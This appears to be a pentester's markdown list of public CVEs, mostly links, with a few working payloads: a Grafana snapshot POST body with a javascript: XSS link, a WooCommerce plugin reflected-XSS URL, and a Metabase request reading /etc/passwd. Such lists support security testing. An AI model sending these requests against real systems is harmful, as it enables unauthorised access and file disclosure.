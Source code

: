 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```








## Full Disclosed reports
https://seclists.org/fulldisclosure/




## CVE Finder
https://git-cve.system00-sec.com/?cve=CVE-2021-1056

## RCE 0-day for GhostScript 9.50 - Payload generator
https://github.com/duc-nt/RCE-0-day-for-GhostScript-9.50

## (CVE-2021-41765 | CVE-2021-41950 | CVE-2021-41951) 
https://www.horizon3.ai/multiple-vulnerabilities-in-resourcespace/






